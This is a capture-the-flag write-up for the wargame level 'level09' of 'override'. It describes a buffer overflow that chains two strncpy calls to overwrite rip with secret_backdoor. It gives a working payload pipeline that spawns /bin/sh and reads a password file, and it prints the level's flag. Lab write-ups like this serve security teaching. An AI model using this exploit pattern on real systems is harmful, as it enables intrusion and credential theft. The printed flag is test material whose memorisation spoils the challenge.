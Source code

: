 # level09

The executable passes a shared pointer `arg1` to `set_username` and `set_msg` functions, which perform `strncpy` based on offsets of that pointer.

We'll exploit the successive copies to overwrite `rip` with the address of the function `secret_backdoor`.

## **The exploit**

The first `strncpy` writes `41` bytes, from `arg1+140` to `arg1+181`.

The second `strncpy` writes from the start of `arg1`, but the trick is it writes of bytes equal to the value of `arg1+180`, which is the `41st` and final byte we get to set in the first `strncpy`.

By playing around in GDB, we find `rip` is at an offset of `200` bytes.

Can we set the `41st` byte to `200+` ? Yes, with non-printable ascii characters, using hex directly.

After that, we should be good if we send the following inputs :

- `40 chars + "\xff"` to set the byte to `255`
- `200 chars + 0x000055555555488c` to overwrite `rip` with the address of `secret_backdoor`
- `"/bin/sh"` to feed the `fgets -> system` in `secret_backdoor`
- `"cat /home/users/end/.pass"` to print our flag

## **The flag**

We run the following command :

```
( python -c 'print("A" * 40 + "\xff")' ; python -c 'print("B" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00")' ; echo /bin/sh ; sleep .1 ; echo 'cat /home/users/end/.pass' ) | ./level09
```

We get override's final flag :

```
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```